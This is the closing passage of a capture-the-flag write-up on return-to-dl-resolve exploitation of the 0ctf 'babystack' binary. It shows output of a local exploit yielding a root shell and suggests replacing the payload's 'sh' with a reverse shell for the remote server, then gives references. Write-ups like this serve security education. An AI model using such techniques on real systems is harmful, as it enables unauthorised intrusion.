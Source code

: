 ```sh
# python exploit_my.py
[+] Starting local process './babystack': pid 1987
[*] '/root/CTF/0ctf/babystack'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
$ whoami
root
$  
```
Awesome! We have successfully exploited this binary on our local machine.
However, this payload wil not work for the remote babystack service because whose stdout redirected to /dev/null.
To get the flag, change the "sh" command with a reverse shell command, send the new payload to the remote server and wait for the vulnerable machine to connect back to your host and open shell.


# 8. Conclusion
All things consider, return-to dl-resolve is one of the most interesting techniques I have ever used because neither libc remote version nor leaking addresses is required to call functions not imported by the elf explicitly.   
Despite the fact that  additional gadgets and address leaks are still required on 64-bit environment, the principle is the same.
To automate the payload crafting process easier, roputils library from inaz2 can be used. This great tool has support for various return-to techniques, including the one described in this article [7].
Should you have any questions or remarks, please contact me: ricardoungureanu@gmail.com

<hr>
[1] http://phrack.org/issues/58/4.html<br>
[2] http://rk700.github.io/2015/08/09/return-to-dl-resolve/ <br>
[3] http://www.gabriel.urdhr.fr/2015/01/22/elf-linking/<br>
[4] https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html<br>
[5] https://manybutfinite.com/post/anatomy-of-a-program-in-memory/ <br>
[6] https://docs.oracle.com/cd/E23824_01/html/819-0690/chapter3-7.html<br>
[7] https://github.com/inaz2/roputils/blob/master/examples/dl-resolve-i386.py <br>